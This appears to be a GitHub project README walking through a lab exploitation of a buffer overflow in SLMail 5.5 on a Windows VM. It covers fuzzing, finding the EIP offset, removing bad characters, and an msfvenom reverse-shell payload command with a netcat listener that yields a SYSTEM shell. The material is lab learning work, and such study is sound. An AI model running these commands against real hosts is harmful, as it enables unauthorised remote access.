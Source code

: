 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Opened BOF machine, accessed command prompt as admin, ran “slmgr /rearm” and “ipconfig”. Identified IP as “10.0.2.10”.
- Installed “12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe”, rebooted VM, and created a shortcut for “SLmail.cpl”.
- Launched “SLmail.cpl” & “Immunity debugger” as admin.
- In “Immunity debugger”, attached the “SLmail.exe” file and ensured its active state.
- On my Kali machine, downloaded the “fuzzerScript.py” to the BOF folder on the desktop.
- In the same directory, created and edited “fuzzy.py”, updating the target IP address on line 13.
- Performed an nmap scan on the target VM. Identified Port 100 open with “pop3” protocol.
- Updated the “fuzzy.py” with the target IP and port.
- In the BOF directory, executed the script using “python2 fuzzy.py”.
- In Immunity debugger, noticed EIP showing “41414141”.
- Generated an MSF pattern using “msf-pattern_create -l 3000”, producing a unique 3000-byte pattern to identify program control flow.
- Copied this pattern into the “fuzzy.py” script buffer, removing the unnecessary counter and loop.
- Reset both SLmail.cpl and Immunity debugger. Ensured SLmail was active in Immunity, then ran “python2 fuzzy.py” from Kali.
- Observed EIP in Immunity debugger updated to “39694438”.
- Determined memory control location using “msf-pattern_offset -l 3000 -q 39694438”, identifying offset “2606”.
- Validated this by modifying “fuzzy.py” buffer to “A * 2606 + B * 4”.
- Reset SLmail.cpl and Immunity debugger, then executed “python2 fuzzy.py”. Noticed EIP as “42424242” and EBP as “41414141” in Immunity debugger.
- Updated “fuzzy.py” to include bad characters, and modified the buffer accordingly.
- Restarted slmail.clp and Immunity debugger. Ran “python fuzzy.py” from Kali, noting an output of 2865 bytes.
- Followed ESP in Immunity debugger's dump, identifying sequences to be removed from “fuzzy.py”.
- Repeated the process with updated “fuzzy.py”, observing a byte decrease in output.
- Made another update to “fuzzy.py”, removing the identified bad character.
- Reset tools, searched for mona modules in Immunity debugger, then searched for the appropriate dll.
- Crafted shellcode with “msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"”.
- Updated “fuzzy.py” with the crafted shell code.
- Set up a listener on Kali with “nc -lvp 4444”.
- Restarted SLmail, ran “fuzzy.py”. The netcat listener received the code, granting system access. Confirmed with “whoami” command showing “nt authority\system”.
